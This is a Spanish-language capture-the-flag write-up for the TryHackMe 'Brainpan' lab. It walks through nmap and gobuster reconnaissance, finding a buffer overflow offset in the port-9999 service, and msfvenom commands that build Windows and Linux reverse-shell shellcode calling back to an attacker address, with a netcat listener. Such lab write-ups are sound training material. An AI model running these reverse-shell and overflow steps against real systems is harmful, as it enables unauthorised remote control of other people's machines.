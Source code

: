 ```yaml
---
title: "brainpan thm"
description: "brainpan thm"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/brainpan

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sT -Pn --top-ports 500 -open -T5 -v -n 10.10.179.217
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240924192946.png)

## Reconocimiento de servicios

````
nmap -sVC -p9999,10000 -Pn 10.10.179.217
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240924193053.png)

## Fuzzing

````
gobuster dir -u http://10.10.179.217:10000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240924193617.png)
Este directorio contiene un binario con el programa que utiliza el puerto 9999

Para ver el programa del puerto 9999:

````
nc 10.10.179.217 9999
````

# Fase de ataque

## Buffer Overflow

1. Nos descargamos e instalamos en Windows Immunity Debugger https://www.immunityinc.com/products/debugger/ y registramos el binario
1. Conectamos al servicio

````
nc 10.10.179.217 9999
````

Al enviar una cantidad de "A" elevada el programa explota, por lo que nos podemos aprovechar para un buffer overflow.
3. Creamos un patrón para localizar donde explota el programa quedándose en el EIP
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240924202320.png)
4. Buscamos el número del EIP para buscar la cantidad de "A" necesarias para sobrescribir el EIP

````
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240924202808.png)

## ESP Shellcode

Ya que la cantidad son 524 y que ESP es la continuación del EIP donde podemos inyectar código malicioso.

1. Creamos el shellcode para windows

````
msfvenom -p windows/shell_reverse_tcp LHOST=10.21.31.251 LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread 
````

2. Creamos el script
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240924205304.png)
2. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

EXTRA: shellcode para linux

````
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip6> LPORT=443 -f c -b "\x00" EXITFUNC=thread 
````

````
sudo -l
````

\[+\] ==pwned!==
